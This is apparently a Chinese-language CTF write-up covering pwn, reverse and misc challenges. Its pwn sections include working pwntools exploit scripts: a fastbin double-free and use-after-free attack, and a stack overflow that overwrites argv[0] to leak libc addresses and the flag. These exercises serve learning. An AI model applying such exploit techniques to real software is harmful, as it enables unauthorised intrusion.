


# 2024-1-29

### Pwn

### 1

从题目看发现是一个堆题


选择界面有五个功能


开辟空间时候会同时开辟两个空间，用一个0x10大小的空间进行控制


修改功能被删除了


删除时会引发uaf和double free功能

最后输出功能会把两个空间同时输出



在开始的函数中会将flag存入某块内存空间，我们可以通过double，free然后修改fastbin指向然后重新申请空间来获取flag所在空间，然后输出即可

```py
from pwn import *
context(os = 'linux', arch = 'amd64', log_level = 'debug')

io = process('./ones')
def create(size1,size2,content1,content2):
    io.sendlineafter('> Now please tell me what you want to do :',b'1')
    io.sendlineafter("> ba's length : ",size1)
    io.sendlineafter('> ba : ',content1)
    io.sendlineafter("> na's length : ", size2)
    io.sendlineafter('> na : ',content2)
def delete(number):
    io.sendlineafter('> Now please tell me what you want to do :', b'3')
    io.sendlineafter('> Banana ID : ',number)
def view(number):
    io.sendlineafter('> Now please tell me what you want to do :', b'4')
    io.sendlineafter('> SCP project ID : ',number)

create(b'80',b'80',b'aaaa',b'bbbb')
create(b'80',b'80',b'cccc',b'dddd')
delete(b'0')
delete(b'1')
delete(b'0')
create(b'80',b'80',p64(0x602098),b'bbbb')
#create(b'80',b'80',b'cccc',b'dddd')
#create(b'80',b'96',b' ',b' ')
#view(b'4')
gdb.attach(io)
io.interactive()
```

### 2


使用IDA打开后我们可以看见该程序会把flag读入到栈上，然后使用gets来读入字符串与flag进行比较，这里就还会造成溢出。


这里我们可以看到开启了canary，触发canary时会输出argv[0]处存储的地址所记载的字符串，我们可以将argv[0]的内容改为flag所在的地址。


利用gdb调试测出读入的位置与argv[0]距离是0x128，将puts的got表地址写入argv[0]得到puts got表地址从而利用libcsearch获取对应libc，然后找到environ地址写入argv [0]输出其内容得到栈的地址，测出其与flag位置偏移为0x168即用stack_addr-0x168来得出flag所在栈的位置，写入argv[0]输出flag

```py
from pwn import *
from LibcSearcher import *

context(os = 'linux', arch = 'amd64', log_level = 'debug')
#io =remote('node4.buuoj.cn',27748)
io = process('./GUESS')
elf = ELF('./GUESS')
puts_got = elf.got['puts']
payload = b'a'*0x128 + p64(puts_got)
io.recvuntil('Please type your guessing flag')
io.sendline(payload)
puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
gdb.attach(io)
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
environ_addr = libc_base + libc.dump('__environ')
payload = b'a'*0x128 + p64(environ_addr)
io.recvuntil('Please type your guessing flag')
io.sendline(payload)
stack_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(stack_addr))
flag_addr = stack_addr - 0x168
payload = b'a'*0x128 + p64(flag_addr)
io.recvuntil('Please type your guessing flag')

io.sendline(payload)
io.interactive() 
```

## Reverse

### 1

运行程序，可以找到一些相关的字符串。


这里正好有一对提示，可以判断这里就是相关检查点，可以看出来最后正确与否跟v4相关，所以要进入check2进行查看


check2使用了ollvm混淆，我们根据返回值来找有效语句


可以看见v11是否等于-528396247与返回值有关，那么D0g数组与sudoku数组的操作就决定了返回值，这里的操作是将两个数组对比，而D0g数组放的是v16数组



而v16数组放的是我们输入的字符串-48


在check1中会对字符进行v运算，前后置换，前后对调

```py
sudo = '4693641762894685722843556137219876255986'
flag = ''
for i in range(len(sudo)):
    num = int(sudo[i]) + 48 + 20
    num = ((num & 0xF3) | (~num & 0xC))
    flag += chr(num)

new_flag = list(flag)
for j in range(0,len(new_flag),2):
    tmp = new_flag[j]
    new_flag[j] = new_flag[j+1]
    new_flag[j+1] = tmp

p = ''
for h in range(int(len(new_flag)/2),len(new_flag)):
    p+=new_flag[h]
for h in range(0,int(len(new_flag)/2)):
    p+=new_flag[h]
print(p)
```

## Misc

### 1

下载图片后发现是一只Capybara，利用winhex进行查看


发现有PK字样，怀疑有压缩包附在图像之后


使用binwalk查看发现压缩包

使用foremost进行分离


发现是一个音频文件


用AUDIO进行查看发现是摩斯密码进行解密